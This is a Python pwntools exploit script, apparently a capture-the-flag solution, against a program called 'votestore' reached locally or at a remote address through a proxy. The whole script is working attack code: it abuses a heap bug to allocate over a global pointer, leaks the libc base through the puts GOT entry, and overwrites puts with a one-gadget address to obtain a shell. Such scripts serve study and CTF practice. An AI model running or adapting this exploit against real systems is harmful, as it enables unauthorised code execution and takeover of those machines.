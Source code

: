 ```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./votestore')
        if lo & 2:
            gdb.attach(sh)
    else:
        context.proxy = (socks.SOCKS5, '127.0.0.1', 1080)
        sh = remote('192.168.16.186', 9999)
    libc = ELF('./votestore.so')

    def addn(hooked:bool=False):
        sh.sendlineafter(b'ice :', b'1')

    def edit(f1:bytes, f2:bytes, shell:bool=False):
        sh.sendlineafter(b'ice :', b'2')
        sh.sendafter(b'name:', f1)
        if shell:
            return
        sh.sendafter(b'data:', f2)

    def deln():
        sh.sendlineafter(b'ice :', b'3')

    def show() -> tuple[bytes]:
        sh.sendlineafter(b'ice :', b'4')
        sh.recvuntil(b'name:')
        name = sh.recvline()
        sh.recvuntil(b'data:')
        data = sh.recvline()
        return name, data

    def eout():
        sh.sendlineafter(b'ice :', b'5')

    # increase interaction time
    addn()
    deln()
    for _ in range(0x40 - 3):
        show()

    # alloc at bss 0x6010a0 and mod the ptr to 0x601020(puts@libc)
    edit(p64(0x6010a0), b'nodata')
    addn()
    addn()
    edit(p64(0x601020), b'nodata')
    # edit(p64(0x601040), p64(0x4006f6)) # testing other libc addr

    # then read out the libc(puts) on got and calc one gadget
    puts, f2 = show()
    debug(f'{puts = }; {f2 = }')
    libcBase = u64(puts[:6] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc: {hex(libcBase)}'))
    ogg = 0xef9f4
    oneGadget = libcBase + ogg

    # now edit puts as one gadget so puts@plt triggers shell
    edit(p64(oneGadget), p64(oneGadget), True) # when writing data calls puts
    sh.clean()
```